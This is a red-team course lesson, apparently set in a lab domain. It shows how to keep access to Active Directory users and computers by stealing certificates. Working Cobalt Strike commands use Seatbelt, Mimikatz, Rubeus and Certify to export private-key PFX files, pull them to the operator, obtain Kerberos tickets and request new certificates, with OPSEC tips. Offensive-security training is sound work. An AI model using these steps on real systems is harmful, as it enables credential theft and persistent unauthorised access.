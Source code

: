 Certificates can also be useful for maintaining persistent access to both users and computers, because they tend to have a longer shelf-life compared to passwords.  For example, User certificates are valid for an entire year by default, regardless of password changes.
```
CA Name             : dc-2.dev.cyberbotic.io\sub-ca
Template Name       : User
Schema Version      : 1
Validity Period     : 1 year
```
  

Certificates only become invalid if they're revoked by the CA (or expire).  This also does not rely on any vulnerable templates.  We can extract certificates that have already been issued, or just request new ones.

  

#### User Persistence

User certificates that have already been issued can be found in the user's Personal Certificate store.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/26b/f67/3a5/nlamb.png)

  

If we have a Beacon running on their machine, we can enumerate their certificates with Seatbelt.
```
beacon> getuid
[*] You are DEV\nlamb

beacon> run hostname
wkstn-1

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates

  StoreLocation      : CurrentUser
  Issuer             : CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Subject            : E=nlamb@cyberbotic.io, CN=Nina Lamb, CN=Users, DC=dev, DC=cyberbotic, DC=io
  ValidDate          : 9/7/2022 11:44:35 AM
  ExpiryDate         : 9/7/2023 11:44:35 AM
  HasPrivateKey      : True
  KeyExportable      : True
  Thumbprint         : 43FA3C3AE4E1212A3F888937745C2E2F55BAC1B5
  Template           : User
  EnhancedKeyUsages  :
       Encrypting File System
       Secure Email
       Client Authentication     [!] Certificate is used for client authentication!
```

  Always ensure the certificate is used for client authentication.

  

Certificates can be exported with Mimikatz using `crypto::certificates` (although it drops them to disk).
```
beacon> mimikatz crypto::certificates /export

    Public export  : OK - 'CURRENT_USER_My_0_Nina Lamb.der'
    Private export : OK - 'CURRENT_USER_My_0_Nina Lamb.pfx'

beacon> download CURRENT_USER_My_0_Nina Lamb.pfx
[*] started download of C:\Users\nlamb\CURRENT_USER_My_0_Nina Lamb.pfx (3454 bytes)
[*] download of CURRENT_USER_My_0_Nina Lamb.pfx is complete
```

  Go to _View > Downloads_ to sync files from Cobalt Strike to your local machine.

  

Base64 encode the pfx file.
```
ubuntu@DESKTOP-3BSK7NO ~> cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0
```
  

Then use it with Rubeus to obtain a TGT.  The export password will be `mimikatz`.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /nowrap

[*] Using PKINIT with etype rc4_hmac and subject: E=nlamb@cyberbotic.io, CN=Nina Lamb, CN=Users, DC=dev, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\nlamb'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

    doIGQj[...]5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/7/2022 12:28:51 PM
  EndTime                  :  9/7/2022 10:28:51 PM
  RenewTill                :  9/14/2022 12:28:51 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  Cptkd+BVLZ8+NS11BQQ6Zg==
  ASREP (key)              :  79C05DC0CC7909DF6448F1B24FAFBD71
```

  **OPSEC**  
  
You may notice that this will request RC4 tickets by default.  You can force the use of AES256 by including the `/enctype:aes256` parameter.

  

  If the user does not have a certificate in their store, we can just request one with Certify.  
  
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
```
  

  

### Computer Persistence

The same can be applied to computer accounts, but we must elevate to extract those certificates.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/074/4f5/086/wkstn1.png)

  
```
beacon> mimikatz !crypto::certificates /systemstore:local_machine /export

    Public export  : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.der'
    Private export : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.pfx'

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA[...]IH0A== /password:mimikatz /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=wkstn-1.dev.cyberbotic.io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\WKSTN-1$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

    doIGYD[...]5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  WKSTN-1$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/7/2022 12:06:02 PM
  EndTime                  :  9/7/2022 10:06:02 PM
  RenewTill                :  9/14/2022 12:06:02 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  6DV6vQB5lRoCz84qmRqt0X6UdIzzdQiX+y0IwwDrHlc=
  ASREP (key)              :  C1B715AF5F9B5468EB5FA8ADDA0E02EE2D7548F439DEA5A5D9B4F7DFA6482BDF
```
  

  If requesting a machine certificate with Certify, the `/machine` parameter is required to auto-elevate to SYSTEM and assume the identity of the computer account.  
  
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
```